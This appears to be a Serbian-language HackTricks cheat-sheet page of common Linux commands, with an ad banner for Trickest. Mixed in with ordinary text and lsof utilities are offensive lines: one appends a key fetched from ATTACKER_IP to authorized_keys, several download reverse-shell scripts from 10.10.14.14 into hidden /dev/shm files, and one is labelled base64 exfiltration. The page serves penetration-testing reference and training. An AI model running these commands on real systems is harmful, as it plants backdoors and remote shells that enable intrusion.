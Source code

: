 # Korisne Linux komande

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da biste lako izgradili i **automatizovali radne tokove** uz pomoć najnaprednijih alata zajednice.\
Dobijte pristup danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Uobičajene Bash komande
```bash
#Exfiltration using Base64
base64 -w 0 file

#Get HexDump without new lines
xxd -p boot12.bin | tr -d '\n'

#Add public key to authorized keys
curl https://ATTACKER_IP/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

#Echo without new line and Hex
echo -n -e

#Count
wc -l <file> #Lines
wc -c #Chars

#Sort
sort -nr #Sort by number and then reverse
cat file | sort | uniq #Sort and delete duplicates

#Replace in file
sed -i 's/OLD/NEW/g' path/file #Replace string inside a file

#Download in RAM
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py

#Files used by network processes
lsof #Open files belonging to any process
lsof -p 3 #Open files used by the process
lsof -i #Files used by networks processes
lsof -i 4 #Files used by network IPv4 processes
lsof -i 6 #Files used by network IPv6 processes
lsof -i 4 -a -p 1234 #List all open IPV4 network files in use by the process 1234
lsof +D /lib #Processes using files inside the indicated dir
lsof -i :80 #Files uses by networks processes
```